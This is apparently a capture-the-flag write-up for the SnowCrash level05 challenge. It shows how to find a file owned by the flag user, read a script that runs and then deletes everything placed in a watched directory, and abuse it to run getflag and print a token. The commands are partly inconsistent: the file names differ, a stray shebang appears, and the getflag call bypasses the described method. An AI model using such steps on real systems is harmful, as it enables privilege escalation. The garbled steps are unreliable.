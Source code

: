 To find the fifth flag, we use the find command to search for a file owned by **flag05** that we have permission to read:

```bash
**level05@SnowCrash:~$** find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver

**level05@SnowCrash:~$** cat /rofs/usr/sbin/openarenaserver
cat: /rofs/usr/sbin/openarenaserver: Permission denied

**level05@SnowCrash:~$** cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

We find a script which runs any scripts found in directory **/opt/openarenaserver/** then deletes them after execution.

We have permissions to add our own scripts in the directory. As everything in this directory is deleted, we create a file into **/tmp** to save the result and set the appropriate permissions so the script can write to it.

```bash
level05@SnowCrash:~$ touch /tmp/my_dir/token.txt
level05@SnowCrash:~$ chmod 777 /tmp/my_dir/token.txt

#!/bin/bash

level05@SnowCrash:~$ echo "'getflag'" | sh > /tmp/my_dir/token
```

Checking the token file:

```bash
level05@SnowCrash:~$ cat /tmp/my_dir/token
Check flag.Here is your token : **viuaaale9huek52boumoomioc**
```
